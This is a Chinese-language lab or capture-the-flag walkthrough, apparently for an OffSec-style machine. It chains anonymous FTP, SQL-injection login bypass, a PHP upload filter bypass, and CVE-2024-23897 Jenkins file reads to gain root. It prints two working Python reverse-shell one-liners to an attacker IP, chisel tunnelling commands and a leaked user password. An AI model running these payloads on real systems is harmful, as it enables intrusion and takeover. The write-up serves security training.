# 信息收集

## nmap



## 21端口-ftp

21端口存在anonymous用户匿名认证，其中有一个config.xml文件

```xml
<?xml version='1.1' encoding='UTF-8'?>
<hudson>
  <disabledAdministrativeMonitors/>
  <version>2.401.2</version>
  <numExecutors>2</numExecutors>
  <mode>NORMAL</mode>
  <useSecurity>true</useSecurity>
  <authorizationStrategy class="hudson.security.FullControlOnceLoggedInAuthorizationStrategy">
    <denyAnonymousReadAccess>false</denyAnonymousReadAccess>
  </authorizationStrategy>
  <securityRealm class="hudson.security.HudsonPrivateSecurityRealm">
    <disableSignup>true</disableSignup>
    <enableCaptcha>false</enableCaptcha>
  </securityRealm>
  <disableRememberMe>false</disableRememberMe>
  <projectNamingStrategy class="jenkins.model.ProjectNamingStrategy$DefaultProjectNamingStrategy"/>
  <workspaceDir>${JENKINS_HOME}/workspace/${ITEM_FULL_NAME}</workspaceDir>
  <buildsDir>${ITEM_ROOTDIR}/builds</buildsDir>
  <jdks/>
  <viewsTabBar class="hudson.views.DefaultViewsTabBar"/>
  <myViewsTabBar class="hudson.views.DefaultMyViewsTabBar"/>
  <clouds/>
  <InitialRootPassword>/root/.jenkins/secrets/initialAdminPassword></InitialRootPassword>
  <scmCheckoutRetryCount>0</scmCheckoutRetryCount>
  <views>
    <hudson.model.AllView>
      <owner class="hudson" reference="../../.."/>
      <name>all</name>
      <filterExecutors>false</filterExecutors>
      <filterQueue>false</filterQueue>
      <properties class="hudson.model.View$PropertyList"/>
    </hudson.model.AllView>
  </views>
  <primaryView>all</primaryView>
  <slaveAgentPort>-1</slaveAgentPort>
  <label></label>
  <crumbIssuer class="hudson.security.csrf.DefaultCrumbIssuer">
    <excludeClientIPFromCrumb>false</excludeClientIPFromCrumb>
  </crumbIssuer>
  <nodeProperties/>
  <globalNodeProperties/>
  <nodeRenameMigrationNeeded>false</nodeRenameMigrationNeeded>
</hudson>

```

这是jenkins的配置文件，其中给出了版本号和密码文件位置`/root/.jenkins/secrets/initialAdminPassword`

并且开启了不可注册

## 9443端口

9443端口是一个监狱管理页面，上面jenkins是java语言的，这个网站是php开发的，所以上面的配置文件这里也用不到



这个监狱管理系统存在sql注入漏洞，使用万能密码就可以绕过登录

[监狱管理系统 - SQL 注入认证绕过 - PHP webapps 漏洞利用 - 利用脚本 --- Prison Management System - SQL Injection Authentication Bypass - PHP webapps Exploit - 利用脚本](./https://prismby.com/exp_db/exploits/prison-management-system-sql-injection-authentication-bypass-php-webapps-exploit-r98136/)



员工这个界面reason中给出了一个密码:`RonnyCache001`



可以上传图片，尝试一下文件上传漏洞



这里应该是只会检查`Content-type`,`content-type`是图片格式即可，修改文件后缀为php



提交之后可以成功创建这个人员，在人员管理这个界面右键图片就可以复制图像的链接了



然后访问图像就可以成功命令执行



```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

使用python的反向shell可以成功回弹



# 提权

现在是www-data用户，home目录下还有vmdak用户，还记的上面找到一个员工的密码，尝试使用该密码切换到vmdak用户



可以成功切换，就可以拿到local.txt

## 端口转发

本地开放了8080端口，并且访问后需要认证，上面给出的config.xml文件中的内容还没有使用过，先将8080端口转发到我们的攻击机



试用chisel转发http请求，将8080转发到我们攻击机的9999端口

```
//攻击机运行
./chisel_1.10.1_linux_amd64 server -p 8888 --reverse
//受害机运行
./chisel_1.10.1_linux_amd64 client 192.168.45.164:8888 R:9999:127.0.0.1:8080
```

访问之后需要我们输入初始密码，但是初始密码是在root目录下的，我们访问不到



config文件中给出了版本号，搜索`jenkins 2.401.2 exploit`，该版本存在任意文件读取漏洞导致远程代码执行

[godylockz/CVE-2024-23897: CVE-2024-23897 Jenkins 文件读取的 POC --- godylockz/CVE-2024-23897: POC for CVE-2024-23897 Jenkins File-Read](./https://github.com/godylockz/CVE-2024-23897)



读取`/root/.jenkins/secrets/initialAdminPassword`,也可以读取`proof.txt`



使用已经读取到的jenkins连接到jenkins的web端，然后随便创建一个用户



创建新项目，在项目中执行shell命令





```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",9443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

创建完成之后点击左侧的build Now，然后本地监听等待回弹就可以了

